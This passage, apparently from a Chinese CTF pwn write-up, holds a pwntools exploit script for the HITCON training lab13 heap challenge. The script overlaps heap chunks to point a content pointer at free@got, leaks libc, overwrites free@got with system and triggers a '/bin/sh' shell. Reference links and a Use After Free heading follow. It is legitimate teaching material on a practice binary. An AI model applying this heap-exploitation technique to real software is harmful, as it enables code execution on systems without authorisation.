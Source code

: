 ```
    p.sendline(str(idx))

def delete(idx):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('Index :')
    p.sendline(str(idx))

# gdb.attach(p)
create(0x18,'aaaa')
create(0x18,'bbbb')

# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(e.got['free']))  #1
# leak freeaddr
show(1)
p.recvuntil("Content : ")
data = p.recvuntil("Done !")
free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
print('free_got_addr:'+hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr-libc.dump('free')
system_addr = libc_base+libc.dump('system')
# libc_base = free_addr - libc.symbols['free']
# log.success('libc base addr: ' + hex(libc_base))
# system_addr = libc_base + libc.symbols['system']
print('system_addr:'+hex(system_addr))
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
p.interactive()
```

##### 参考链接

https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/chunk-extend-overlapping/#hitcon-trainging-lab13

https://www.freesion.com/article/87911143272/

## Use After Free
